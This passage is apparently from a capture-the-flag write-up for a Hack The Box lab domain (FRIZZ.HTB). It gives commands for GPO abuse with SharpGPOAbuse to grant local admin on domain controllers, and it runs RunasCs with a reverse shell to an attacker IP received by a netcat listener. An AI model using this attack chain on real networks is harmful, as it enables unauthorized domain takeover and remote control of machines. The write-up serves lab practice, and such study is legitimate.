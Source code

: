 ### Creating GPO + GPO abuse

**Create a new GPO:**

```powershell
New-GPO -Name GPO-new | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
```

**Check applied GPOs:**

```powershell
get-GPO -All
```

**Make yourself admin (SharpGPOAbuse):**

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```

- Wait or run gpupdate /force on the target machine

**Verify admin rights:**

```
net localgroup administrators
```

---

## Gaining SYSTEM / root shell with RunasCs

**Build the RunasCs executable yourself (see the full process in the notes section)**

**Reverse shell payload (PowerShell):**

```powershell
.\RunasCs.exe 'M.schoolbus' '!suBc*****' powershell.exe -r 10.10.14.52:4444
```

- Netcat listener: `nc -lvnp 4444`
- If you need a meterpreter shell, create a payload using msfvenom and launch it with RunasCs

**Obtain root.txt:**

```
type C:\Users\Administrator\Desktop\root.txt
```

---

**Bonus: Custom RunasCs.exe build on Windows (quick workflow)**

1. Download the source: [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)
2. On Windows, install Visual Studio Build Tools (only .NET build is needed)
3. Open the "Developer Command Prompt for VS"
4. Navigate to the RunasCs folder, then:
   ```cmd
   msbuild /p:Configuration=Release
   ```
5. The exe will be located here: `bin\Release\RunasCs.exe`
6. Copy it to a USB stick or upload to a private GitHub repo, then download from Linux

---